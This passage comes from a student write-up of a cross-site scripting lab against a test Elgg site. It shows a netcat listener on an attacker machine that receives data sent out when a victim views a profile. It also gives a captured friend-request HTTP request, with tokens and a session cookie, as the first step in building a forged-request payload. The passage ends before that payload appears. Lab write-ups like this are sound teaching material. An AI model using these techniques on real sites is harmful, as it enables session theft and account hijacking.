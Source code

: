 Then listen on the port 5555 on the attacker machine:
```
nc -l 5555 -v
```
Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM ```10.0.2.4```, then it will appear on the attacker:

![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/33.PNG)

# Task 4
Try to log in as ```alice``` and add ```samy``` as a friend, during the process, network tool captures the request:

HTTP header:
```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive

```
So construct the payload that forges the user's friend request as:
